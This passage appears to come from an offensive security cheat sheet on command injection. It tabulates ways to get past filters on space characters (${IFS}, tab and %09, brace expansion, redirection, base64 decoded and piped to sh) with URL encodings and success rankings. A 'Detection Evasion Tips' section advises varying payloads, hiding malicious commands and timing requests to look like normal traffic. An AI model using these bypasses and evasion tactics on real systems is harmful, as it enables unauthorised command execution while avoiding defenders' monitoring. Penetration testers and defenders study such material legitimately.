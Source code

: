 
## Comprehensive Reference Table

### Space Bypass Methods Comparison

| **Method** | **Syntax** | **URL Encoded** | **Platform** | **Reliability** |
|------------|------------|-----------------|--------------|-----------------|
| **Tab** | `\t` | `%09` | Universal | High |
| **IFS Variable** | `${IFS}` | `%24%7bIFS%7d` | Unix/Linux | High |
| **Brace Expansion** | `{cmd,arg}` | `%7bcmd,arg%7d` | Bash | Medium |
| **Vertical Tab** | `\v` | `%0b` | Universal | Medium |
| **Form Feed** | `\f` | `%0c` | Universal | Low |
| **Base64** | `echo X\|base64 -d\|sh` | Complex | Unix/Linux | Medium |
| **Hex Encoding** | `printf "cmd\x20arg"` | Complex | Unix/Linux | Medium |
| **Redirection** | `cat<file` | `cat%3cfile` | Unix/Linux | High |

### Selection Strategy

**Primary Methods (High Success Rate):**
1. **Tab character** (`%09`) - Universal compatibility
2. **IFS variable** (`${IFS}`) - Reliable on Unix/Linux
3. **Brace expansion** (`{cmd,arg}`) - Clean syntax

**Fallback Methods:**
1. **Extended whitespace** (`%0b`, `%0c`) - When primary blocked
2. **Encoding methods** - When characters are heavily filtered
3. **Platform-specific** - When environment is known

---

## Detection Evasion Tips

### Stealth Considerations

**Avoid Common Patterns:**
- Don't always use the same bypass method
- Vary payload structure between requests
- Mix different techniques in single payload

**Blend with Normal Traffic:**
- Use realistic command arguments
- Avoid obviously malicious commands
- Time requests to appear natural

**Error Handling:**
```bash
# Graceful degradation
{ls,-la}||{dir,/w}||echo${IFS}"fallback"
```
